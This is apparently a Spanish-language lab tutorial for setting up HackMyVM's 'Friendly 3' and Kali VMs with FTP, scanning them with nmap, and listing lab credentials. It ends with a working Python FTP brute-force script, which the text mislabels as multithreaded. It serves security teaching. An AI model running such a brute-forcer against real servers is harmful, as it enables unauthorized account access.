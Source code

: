 
---

## 1. Preparativos previos

- **Hipervisor**: VMware, VirtualBox o similar instalado (Windows, macOS o Linux).
    
- **Cuentas**:
    
    - HackMyVM (descarga de la VM _Friendly 3_).
        
    - Acceso a una ISO o appliance de Kali Linux.
        
- **Red**: Ambas VMs deben poder comunicarse entre sí y con tu máquina anfitriona (modo _Bridged_ o _Host‑only_ con routing / NAT correctamente configurado).
    

---

## 2. Descarga e importación de la VM “Friendly 3”

1. Abre tu navegador y ve a HackMyVM.
    
2. En el buscador de máquinas escribe **Friendly 3** y selecciona la máquina.
    
3. Haz clic en **Download → Mega** y baja el archivo `.ova`.
    
4. En tu hipervisor:
    
    - **VirtualBox**: `Archivo → Importar servicio virtualizado…` y selecciona el `.ova`.
        
    - **VMware**: `File → Open…` y abre el `.ova`.
        
5. Espera a que termine la importación.
    

---

## 3. Configuración de red de “Friendly 3”

1. Con la VM apagada, ve a **Configuración → Red**.
    
2. Selecciona **Adaptador 1** en modo **Bridged** (o el modo que prefieras siempre que ambos equipos se vean).
    
3. Marca “Cable conectado” y **desactiva** opciones de filtrado de puertos avanzados (para evitar errores).
    
4. Guarda y arranca la VM.
    

---

## 4. Instalación y preparación de la VM Kali Linux

1. Importa o crea una máquina con **Kali Linux** (puede ser ISO o `.ova`).
    
2. Configura su **adaptador de red** de forma análoga a “Friendly 3” (mismo modo).
    
3. Arranca Kali.
    

---

## 5. Obtener direcciones IP

En **cada** VM, abre una terminal y ejecuta:

```bash
ip addr show
```

- Anota la IP de “Friendly 3” (p.ej. `192.168.0.67`).
    
- Anota la IP de Kali (p.ej. `192.168.0.66`).
    

---

## 6. Habilitar y comprobar FTP en Kali

1. Instala el servidor FTP:
    
    ```bash
    sudo apt update
    sudo apt install -y vsftpd
    ```
    
2. Inicia el servicio y habilítalo al arranque:
    
    ```bash
    sudo systemctl start vsftpd
    sudo systemctl enable vsftpd
    ```
    
3. Verifica el estado:
    
    ```bash
    sudo systemctl status vsftpd
    ```
    
4. Prueba el acceso FTP desde tu máquina anfitriona (o desde “Friendly 3”):
    
    ```bash
    ftp 192.168.0.66
    # Usuario: kali  Contraseña: kali
    ```
    
    Debes poder entrar y listar archivos.
    

---

## 7. Verificar FTP en Friendly 3

1. En Kali (o en tu anfitrión) instala nmap si no lo tienes:
    
    ```bash
    sudo apt install -y nmap
    ```
    
2. Escanea el puerto 21 de la VM “Friendly 3”:
    
    ```bash
    nmap -p 21 192.168.0.67
    ```
    
    Debería aparecer el puerto **21/tcp open ftp**.
    
3. Prueba la conexión FTP:
    
    ```bash
    ftp 192.168.0.67
    # Usuario: Juan  Contraseña: Alexis
    ```
    
    Si todo va bien, ya entras con ese usuario.
    

---

## 8. Resumen de credenciales

|Máquina|IP|Protocolo|Usuario|Contraseña|
|---|---|---|---|---|
|Kali Linux|192.168.0.66|FTP (21)|kali|kali|
|Friendly 3|192.168.0.67|FTP (21)|Juan|Alexis|

---

## 9. Preparar el entorno de desarrollo

1. Abre **Visual Studio Code**.
    
2. Crea o abre el proyecto de Python de la clase anterior.
    
3. Borra o comenta el código viejo.
    
4. Crea un nuevo archivo, por ejemplo `brute_ftp_concurrente.py`.
    
5. Define ya la estructura inicial:
    

```python
from ftplib import FTP

ftp_server = '192.168.0.67'  # Cambia con vuestra IP

user_file = 'usuarios.txt'
password_file = 'contraseñas.txt'

with open(user_file, 'r') as uf:
    usernames = uf.read().splitlines()

with open(password_file, 'r') as pf:
    passwords = pf.read().splitlines()

for username in usernames:
    for password in passwords:
        try:
            ftp = FTP(ftp_server)
            ftp.login(user=username, passwd=password)
            print(f"Conexión exitosa con usuario: {username} y contraseña: {password}")
            ftp.quit()
            exit()
        except Exception:
            print(f"Fallo con usuario: {username} y contraseña: {password} en {ftp_server}")
            try:
                ftp.quit()
            except:
                pass

print("Ataque de fuerza bruta terminado. No se encontraron credenciales válidas.")
```
    
6. Guarda y déjalo listo para la próxima sesión.
    

---

Con todo lo anterior ya tienes tu **laboratorio preparado** con dos objetivos FTP activos y un esqueleto de script multihilo en Python. En la siguiente clase implementaremos la función `ataque_ftp` con la lógica de fuerza bruta.